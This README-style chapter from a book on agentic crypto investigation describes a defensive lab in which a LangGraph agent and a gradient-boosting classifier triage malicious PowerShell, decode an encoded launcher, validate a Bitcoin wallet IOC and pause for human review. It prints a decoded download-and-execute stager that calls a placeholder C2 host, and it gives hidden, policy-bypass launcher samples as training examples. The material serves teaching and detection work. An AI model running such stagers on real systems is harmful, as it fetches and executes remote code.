

# Chapter 5 — Machine-Learning Triage and Agent Orchestration for PowerShell Artifacts

*Cryptocurrency Investigation with Agentic AI* · Victor Fang · Wiley · 2026  
**Author:** [VictorFang.com](https://www.VictorFang.com) · [LinkedIn](https://www.linkedin.com/in/drvictorfang/) · [X](http://x.com/vicfcs)

---

### Learning Objectives

After working through this chapter and the accompanying lab script (`ch05_langgraph_powershell_bitcoin_lab.py`), you should be able to:

1. **Build a simple AI agent using LangGraph** — define a `StateGraph` with nodes, conditional edges, shared state, audit logging, and a human-in-the-loop interrupt.
2. **Apply the agent to a crypto-mining PowerShell case** — triage a real-world-style scenario involving an encoded cryptominer launcher (`PS-0416`), extract a validated Bitcoin wallet IOC from a separate clipper payload, and produce an evidence-bounded finding.
3. **Train a GBT classifier** — fit a scikit-learn `GradientBoostingClassifier` on labeled PowerShell examples, extract hand-crafted features, and use the model's malicious probability to route cases for analyst review.

> **Note.** Training samples, URLs, and payloads are fixed teaching fixtures — not a production malware corpus.

---

## 5.1 Introduction

This chapter pursues three learning goals in a single lab. You will **build a LangGraph agent** that branches on classifier output and pauses for human review; **apply it to a crypto-mining PowerShell case** (Talos-style encoded launcher plus separate clipper payload); and **train a GBT classifier** on labeled scripts to decide which cases warrant escalation.

The lab is one Python file, requires `langgraph` and `scikit-learn`, and runs without LLM API calls — keeping focus on graph structure, state management, and the classifier.

---

## 5.2 The Investigation Scenario

**What is PS-0416?** `PS-0416` is the **demo case identifier** for this chapter’s lab — a fictional case ID (`PS` = PowerShell artifact; `0416` = teaching fixture number), not a published incident report. It models a **Talos-style cryptominer investigation**: an encoded PowerShell launcher that stages a remote install script, plus a **separate** clipper configuration that holds a Bitcoin wallet address. The lab’s `CASE` dictionary and LangGraph `thread_id` (`case-PS-0416`) both use this ID.

The case involves two separately preserved evidence items:

**Evidence 1 — PowerShell script block (`evidence_id: PS-0416`).** Endpoint telemetry captured a launcher with hidden window (`-W Hidden`), execution-policy bypass (`-Exec Bypass`), and Base64 `-EncodedCommand`. Decoded offline (never executed):

```
IEX ((New-Object Net.WebClient).DownloadString('http://cryptominer-c2.invalid:8220/install.ps1'))
```

This download-and-`IEX` pattern is typical cryptominer staging. The Bitcoin wallet does *not* appear in this command.

**Evidence 2 — Clipper payload (`evidence_id: PAYLOAD-0001`).** A configuration string from a separate clipboard-stealer artifact:

```
clipper_config btc=3Csd9Zq4r16dVQuREs52y5eJFgYEqQjAx1
```

Wallet addresses often appear in config files or memory dumps rather than the launcher. A workflow that only searches the PowerShell command line would miss the cryptocurrency link.

When the agent runs this case, the GBT model scores it **0.9802** (above the 0.42 review threshold), validates the Bitcoin IOC, drafts a finding, pauses at human review, and — in the demo resume — completes as `completed:approve`.

---

## 5.3 Architecture of the Agent Workflow

Figure 5.1 shows the LangGraph workflow. Each box is a node (a Python function); dashed edges are conditional routes.



**Figure 5.1** — LangGraph workflow (~3:4 portrait for book columns). Abbreviated labels: `decode` = `preserve_decode`, `extract IOCs` = `extract_iocs`, `human review` = `human_review`.

The happy path: preserve/decode → classify → extract IOCs → draft → validate → human review → finalize. Low scores route to `close`; failed validation routes to `blocked`.

---

## 5.4 Case State: Input and Output

All nodes share a typed dictionary, `CaseState` — the case file that accumulates fields as it moves through the graph. **Input** at invocation: `case_id`, `powershell_text`, `payload_text`, `source_records`, and an empty `audit_log`. The graph computes hashes, decoded text, feature vectors, scores, IOCs, findings, and terminal `status`.

Two design choices matter. `audit_log` uses `Annotated[list[str], add]` so each node *appends* events without overwriting prior entries. `powershell_text` and `payload_text` are separate inputs, matching the multi-artifact scenario in Section 5.2.

For PS-0416, invoke with case ID `PS-0416`, the encoded launcher, and clipper payload `clipper_config btc=3Csd9Zq4r16dVQuREs52y5eJFgYEqQjAx1`. See `CASE` in the lab script for the full fixture.

**Two-phase execution.** Phase 1 runs until `human_review` calls `interrupt()` and pauses:

```
Score: 0.9802
Bitcoin IOCs: ['3Csd9Zq4r16dVQuREs52y5eJFgYEqQjAx1']
Finding: Artifact PS-0416 scored 0.9802 against the 0.42 threshold ...
```

Phase 2 resumes the same `thread_id` with `Command(resume={"decision": "approve", "reviewer": "alice"})`, yielding `status = "completed:approve"`. Scores below 0.42 close without IOC extraction; validation failures route to `blocked`.

---

## 5.5 Training the GBT Classifier

The lab fits a **Gradient Boosting Classifier** on sixteen fixed `(script, label)` pairs in `TRAINING_SAMPLES` (label `0` = benign, `1` = malicious). Representative examples:

| Label | Example | Why |
|---|---|---|
| 0 | `Get-Service \| Where-Object Status -eq 'Running'` | Routine admin cmdlet |
| 0 | `Get-Process \| Sort-Object CPU -Descending ...` | Performance monitoring |
| 1 | `IEX ((New-Object Net.WebClient).DownloadString('...'))` | Remote download + IEX |
| 1 | `powershell -W Hidden -Exec Bypass -Command IEX('test')` | Classic launcher pattern |

```python
def train_toy_model() -> GradientBoostingClassifier:
    rows = [to_vector(extract_features(text)) for text, _ in TRAINING_SAMPLES]
    labels = [label for _, label in TRAINING_SAMPLES]
    model = GradientBoostingClassifier(n_estimators=40, learning_rate=0.08, max_depth=2)
    model.fit(rows, labels)
    return model
```

`MODEL.predict_proba(...)[0, 1]` returns **P(malicious)**. The review threshold is **0.42** — deliberately low so borderline scripts still reach an analyst.

---

## 5.6 Core Algorithms

### Features, entropy, and classification

`extract_features()` maps PowerShell text to ten numeric signals: length, Shannon entropy, flags for encoding, hidden window, policy bypass, IEX/download/URL, admin cmdlet count, and obfuscation markers (`+`, backticks, `-join`). Shannon entropy sums −*p*·log₂(*p*) over character frequencies — higher for encoded blobs, lower for repetitive admin scripts.

The `classify_powershell` node concatenates the original command *and* decoded `-EncodedCommand` text before extracting features, so the model inspects the payload inside the envelope, not just the launcher.

### Safe decoding

`decode_encoded_command()` regex-matches `-EncodedCommand`, Base64-decodes, and interprets bytes as UTF-16LE — **without executing PowerShell**. The `preserve_and_decode` node stores a SHA-256 hash of the original text plus the decoded content.

### Bitcoin IOC validation

Legacy addresses (`1...` / `3...`) are matched by regex on `payload_text`, then filtered through **Base58Check** (double-SHA256 checksum). For PS-0416, one valid address survives: `3Csd9Zq4r16dVQuREs52y5eJFgYEqQjAx1`. Bech32 (`bc1`) is not covered in this lab.

### Finding guardrails

Before human review, `validate_finding()` blocks unsupported ownership language ("owned by," "controlled by"), requires every validated IOC and the classifier score in the finding text, and requires ownership to remain explicitly **unknown**. Failures route to `blocked` rather than the reviewer.

---

## 5.7 LangGraph Orchestration and Human Review

The pipeline is a `StateGraph(CaseState)` with conditional edges at `classify` (review vs. close) and `validate` (human review vs. blocked). The graph compiles with `InMemorySaver()` so the same `thread_id` can resume after an interrupt.

```python
def build_graph():
    graph = StateGraph(CaseState)
    graph.add_node("preserve_decode", preserve_and_decode)
    graph.add_node("classify", classify_powershell)
    # ... extract_iocs, draft, validate, human_review, finalize, close, blocked
    graph.add_conditional_edges("classify", route_after_classification,
                                {"extract_iocs": "extract_iocs", "close": "close"})
    graph.add_conditional_edges("validate", route_after_validation,
                                {"review": "human_review", "blocked": "blocked"})
    return graph.compile(checkpointer=InMemorySaver())
```

The `human_review` node calls `interrupt()` with the finding, score, and IOCs, then waits. Production systems must authenticate the reviewer before `Command(resume=...)`. This separates automation (scoring, IOC extraction, drafting) from judgment (approve, reject, request more evidence).

---

## 5.8 Running the Lab

```bash
pip install -r requirements.txt
python ch05_langgraph_powershell_bitcoin_lab.py
```

Requires Python 3.10+. Use your virtual environment's Python — not system `/usr/local/bin/python3`.

Expected output ends with `Final status: completed:approve`. Regenerate the workflow diagram with `APP.get_graph().draw_mermaid_png()` (see `agent_graph.png`).

---

## 5.9 Chapter Summary

1. **LangGraph agent** — `StateGraph` with conditional routing, audit log, checkpointing, and human-review interrupt.
2. **Crypto-mining case** — encoded launcher triage, Base58Check IOC extraction, evidence-bounded finding for PS-0416.
3. **GBT classifier** — sixteen labeled examples, ten hand-crafted features, P(malicious) ≥ 0.42 review threshold.

Later chapters add LLM reasoning, tool use, and richer memory on this foundation.

---

## Companion Files

| File | Description |
|------|-------------|
| `ch05_langgraph_powershell_bitcoin_lab.py` | Self-contained lab script |
| `requirements.txt` | `langgraph`, `scikit-learn` |
| `agent_graph.png` | Pre-rendered workflow diagram |
| `README.md` | This chapter section |

---

*Companion code · [Apache License 2.0](../LICENSE)*
